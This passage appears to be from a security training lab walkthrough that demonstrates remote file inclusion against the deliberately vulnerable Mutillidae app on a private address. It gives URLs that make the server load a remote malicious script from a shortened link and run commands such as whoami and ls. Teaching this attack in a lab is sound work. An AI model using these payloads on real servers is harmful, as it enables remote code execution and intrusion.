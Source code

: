    - Let's now check whether we can use this webpage as the new remote resource.

    - Return to the browser and change the URL to the following: <http://192.168.13.27/mutillidae/index.php?page=https://tinyurl.com/y498epmz>.
  
      ![A red arrow points to the remote malicious script at the end of the URL.](Images/RFI6.png)
  
   - Press Enter. Similar to the LFI demonstration, nothing happens, as expected. We need to add a parameter to the URL to run command-line scripts. This works a little differently than the LFI script.
  
   - To run a command-line script, we have to add a second parameter with an ampersand `&`.

     - For example, if we want to run the `whoami` command, we add the second parameter as follows: <http://192.168.13.27/mutillidae/index.php?page=https://tinyurl.com/y498epmz&cmd=whoami>.
  
        ![The new URL features the first and second parameters.](Images/RFI7.png)

   - Run the command. The webpage displays the results of the `whoami` command run against the web server: `www-data`.
  
      ![The Mutillidae webpage features text that says "www-data www-data".](Images/RFI8.png) 
 
   - Run `ls` to show that almost any command-line command can be run: <http://192.168.13.27/mutillidae/index.php?page=https://tinyurl.com/y498epmz&cmd=ls>.
 